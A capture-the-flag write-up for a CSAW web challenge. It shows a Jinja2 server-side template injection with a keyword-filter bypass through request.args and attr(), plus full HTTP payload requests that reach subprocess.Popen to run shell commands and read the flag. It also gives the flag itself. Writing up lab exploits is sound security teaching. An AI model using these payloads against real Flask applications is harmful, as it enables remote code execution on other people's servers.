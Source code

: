 ```yaml
---
description: Flask Server-Side Template Injection (SSTI)
---
```


# Ninja

## Description

Hey guys come check out this website I made to test my ninja-coding skills.

http://web.chal.csaw.io:5000

## Solution

The webpage is vulnerable to a Server-Side Template Injection (SSTI) vulnerability.

However, there are a few restrictions. Using any of the blacklisted words will yield the following error:

> Sorry, the following keywords/characters are not allowed :- \_ ,config ,os, RUNCMD, base

### Filter Bypass

I found this [excellent tutorial](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) on how to bypass Jinja2 SSTI filters. Basically, we can pass in any of the blacklisted characters as GET request arguments, then access them through `request.args`.

This allows us to pass them into `attr()`, which is a Jinja2 [built-in filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#builtin-filters) that gets an attribute of an object. `foo|attr("bar")` is equivalent to  `foo.bar`.

The following payload:

`/submit?value={{()|attr(request.args.c)}}&c=__class__`

will result in `().__class__` being evaluated and shown to the user.

### Finding subprocess.Popen

To get the subclasses, we do `().__class__.__base__.__subclasses__()`.

```http
GET /submit?value={{()|attr(request.args.c)|attr(request.args.b)|attr(request.args.s)()}}&c=__class__&b=__base__&s=__subclasses__ HTTP/1.1
Host: web.chal.csaw.io:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.chal.csaw.io:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

I copied the output and used the following script to find `<class 'subprocess.Popen'>` in the subclasses. The index was 258.

```python
check = "..."
for index,value in enumerate(check.split(',')):
    if "subprocess.Popen" in value:
        print(index)
```

We are subsequently able to access this index to obtain RCE through `subprocess.Popen`.

### RCE

With access to `subprocess.Popen`, we simply have to leverage it to achieve RCE. 

```http
GET /submit?value={{()|attr(request.args.c)|attr(request.args.b)|attr(request.args.s)()|attr(request.args.g)(258)('ls',shell=True,stdout=-1)|attr('communicate')()|attr(request.args.g)(0)|attr('decode')('utf-8')}}&c=__class__&b=__base__&s=__subclasses__&g=__getitem__ HTTP/1.1
Host: web.chal.csaw.io:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.chal.csaw.io:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

Finally, `cat flag.txt` gives us the flag!

![](<../../.gitbook/assets/image (76).png>)

The flag is `flag{m0mmy_s33_1m_4_r34l_n1nj4}`.
